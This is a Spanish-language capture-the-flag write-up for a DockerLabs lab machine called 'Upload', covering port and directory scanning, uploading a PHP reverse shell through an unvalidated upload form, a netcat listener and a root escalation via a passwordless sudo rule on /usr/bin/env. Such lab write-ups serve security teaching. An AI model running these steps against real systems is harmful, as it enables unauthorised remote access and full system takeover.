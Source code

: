 # 📘 Informe Técnico - Máquina: *Upload*

* **Nivel:** Fácil
* **Propósito:** Evaluar la capacidad para identificar y explotar vulnerabilidades de subida de archivos.
* **Objetivo:** Obtener acceso remoto mediante una shell inversa y escalar privilegios a root.

---

![Logo](Imágenes/2025-05-15_15-37.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip upload.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh Upload.tar
```

Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```

![Ping a la máquina](Imágenes/Capturas.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_1.png)

Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80 172.17.0.3
```

![Nmap detallado](Imagenes/Capturas_2.png)

### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

---

## 🌐 Análisis Web

Al acceder a la web en el puerto 80, observamos una interfaz simple con una opción de subida de archivos.

![Web](Imagenes/Capturas_4.png)

Realizamos un fuzzing de directorios para detectar rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

### 🔍 Directorios encontrados:

* `/uploads`
* `/index.html`
* `/upload.php`

![Pagina](Imagenes/Capturas_5.png)

Al ingresar a `/uploads`, observamos los archivos que han sido subidos previamente.

---

## ⚙️ Explotación - WebShell

En base al comportamiento de la aplicación, generamos una **PHP Reverse Shell** (`php-reverse-shell.php`). Este archivo se incluye en el repositorio como `exploit`.

Luego, iniciamos el listener en nuestra máquina atacante:

```bash
sudo nc -lvnp 443
```

Desde la interfaz de subida (`/upload.php`), cargamos nuestro archivo malicioso `.php`.

![subida](Imagenes/Capturas_8.png)

Posteriormente, al acceder al archivo desde la ruta `/uploads`, se ejecuta el payload y obtenemos una **shell inversa** como el usuario `www-data`.

![Escucha](Imagenes/Capturas_7.png)

---

## ⚡ Escalada de Privilegios

Una vez dentro, ejecutamos el siguiente comando para verificar los privilegios sudo:

```bash
sudo -l
```

La salida indica que el usuario `www-data` puede ejecutar `/usr/bin/env` como root **sin contraseña**:

```
(root) NOPASSWD: /usr/bin/env
```

![php](Imagenes/Capturas_9.png)

Aprovechamos esta configuración para escalar privilegios ejecutando una shell como root:

```bash
sudo /usr/bin/env /bin/sh
```

¡Y obtenemos acceso como **root**!

![root](Imagenes/Capturas_10.png)

---

## 🏁 Conclusión

La máquina *Upload* demuestra una vulnerabilidad común: **falta de validación en la subida de archivos**, lo cual permite la ejecución remota de comandos. La escalada de privilegios es posible gracias a una configuración de `sudo` mal gestionada que permite el uso de `env` como root sin contraseña.

> 💡 **Lección clave:** Nunca se debe permitir la ejecución de binarios como `env`, `python`, `perl`, etc., mediante sudo sin contraseña, especialmente desde usuarios de bajo privilegio como `www-data`.

---
